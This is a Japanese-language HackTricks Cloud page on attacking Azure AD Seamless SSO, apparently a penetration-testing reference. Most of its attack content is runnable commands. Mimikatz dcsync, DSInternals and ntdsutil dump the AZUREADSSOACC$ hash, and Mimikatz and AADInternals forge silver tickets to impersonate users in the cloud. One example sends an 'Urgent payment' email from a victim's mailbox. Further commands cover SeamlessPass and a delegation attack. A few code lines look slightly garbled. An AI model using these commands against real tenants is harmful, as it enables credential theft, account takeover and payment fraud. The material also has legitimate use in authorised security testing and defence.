 # Az - シームレスSSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) は、**企業ネットワークに接続された企業デバイス上にいるときに自動的にユーザーをサインインさせます**。有効にすると、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく、通常はユーザー名すら入力する必要がありません**。この機能により、ユーザーは追加のオンプレミスコンポーネントなしで、クラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスのドメインに参加しているPC上にいるときにユーザーをサインインさせます**。

これは、[**PHS (パスワードハッシュ同期)**](phs-password-hash-sync.md) と [**PTA (パススルー認証)**](pta-pass-through-authentication.md) の両方でサポートされています。

デスクトップSSOは、**Kerberos**を使用して認証を行います。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`というコンピュータアカウントを作成します**。`AZUREADSSOACC$`アカウントのパスワードは、構成中に**平文でAzure ADに送信されます**。

**Kerberosチケット**は、パスワードの**NTHash (MD4)**を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント** (https://autologon.microsoftazuread-sso.com) を公開しています。ドメイン参加したマシンのブラウザは、SSOのためにこのエンドポイントにチケットを転送します。

### オンプレミス -> クラウド

ユーザーの**`AZUREADSSOACC$`のパスワードは**決して変更されません**。したがって、ドメイン管理者はこのアカウントの**ハッシュを危険にさらし**、それを使用して**シルバーチケットを作成し、任意のオンプレミスユーザーと同期してAzureに接続することができます**。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、**シルバーチケットを生成**できます：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **ブラウザを起動:** Mozilla Firefoxを起動します。
2. **ブラウザを設定:**
* **`about:config`**に移動します。
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)にします:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **ウェブアプリケーションにアクセス:**
* 組織のAADドメインに統合されたウェブアプリケーションにアクセスします。一般的な例は[Office 365](https://portal.office.com/)です。
4. **認証プロセス:**
* ログイン画面で、ユーザー名を入力し、パスワードフィールドは空白のままにします。
* 続行するには、TABまたはENTERを押します。

{% hint style="success" %}
これにより、MFAが有効な場合はバイパスされません
{% endhint %}

#### オプション2 dcsyncなし - SeamlessPass

この攻撃は、**dcsync攻撃なしで**実行することも可能で、[このブログ記事](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で説明されています。そのためには、次のいずれかが必要です:

* **侵害されたユーザーのTGT:** たとえ持っていなくても、ユーザーが侵害されていれば、[Kekeo](https://x.com/gentilkiwi/status/998219775485661184)や[Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)などの多くのツールに実装されている偽TGT委任トリックを使用して取得できます。
* **ゴールデンチケット**: KRBTGTキーがあれば、攻撃対象のユーザーに必要なTGTを作成できます。
* **侵害されたユーザーのNTLMハッシュまたはAESキー:** SeamlessPassは、この情報を使用してドメインコントローラーと通信し、TGTを生成します。
* **AZUREADSSOACC$アカウントのNTLMハッシュまたはAESキー:** この情報と攻撃対象のユーザーのセキュリティ識別子(SID)を使用して、サービスチケットを作成し、クラウドに認証することが可能です（前の方法で実行されたように）。

最後に、TGTを使用して、[**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)ツールを使用することができます:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

シームレスSSOでFirefoxを動作させるためのさらなる情報は、[**このブログ記事**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で確認できます。

#### ~~クラウド専用ユーザーのためのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**クラウドユーザーのSIDを設定することができます**。この方法でKerberos **チケット**は**クラウド専用ユーザーのためにも作成できます**。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用管理ユーザーのSIDの変更は現在**Microsoftによってブロックされています**。\
詳細は[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)を確認してください。
{% endhint %}

### オンプレミス -> クラウドへのリソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが存在するコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できる人は、**アカウントに対してリソースベースの制約付き委任を構成し、アクセスすることができます**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: 私はあなたのクラウドにいて、皆のメールを読んでいます - Active Directoryを介してAzure ADをハッキングする](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
